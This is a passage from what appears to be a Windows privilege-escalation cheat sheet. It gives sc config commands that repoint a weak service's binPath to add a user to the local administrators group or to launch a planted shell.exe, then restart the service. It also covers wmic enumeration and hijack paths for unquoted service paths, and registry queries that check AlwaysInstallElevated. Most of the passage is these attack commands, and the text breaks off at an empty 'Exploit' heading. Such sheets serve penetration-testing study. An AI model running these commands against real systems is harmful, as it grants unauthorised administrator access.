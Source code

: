 ==> `Service All Access` or `Service Change Config`

``` bash
sc config "service" binPath= "net localgroup administrators user /add"
```

``` bash
sc config "service" binPath= "c:\users\public\shell.exe"
```

``` bash
sc stop "service"
```

``` bash
sc start "service"
```

[https://asfiyashaikh.medium.com/windows-privesc-weak-service-permission-b90f3bf4d44f](https://asfiyashaikh.medium.com/windows-privesc-weak-service-permission-b90f3bf4d44f)

[https://medium.com/@orhan_yildirim/windows-privilege-escalation-insecure-service-permissions-e4f33dbff219](https://medium.com/@orhan_yildirim/windows-privilege-escalation-insecure-service-permissions-e4f33dbff219)

### Leveraging Unquoted Paths

``` bash
wmic service get displayname,pathname
```

``` bash
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

## Binaries That AutoElevate

### AlwaysInstallElevated

[https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated)

Enum commands

``` bash
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```

``` bash
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
```

``` bash
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Exploit
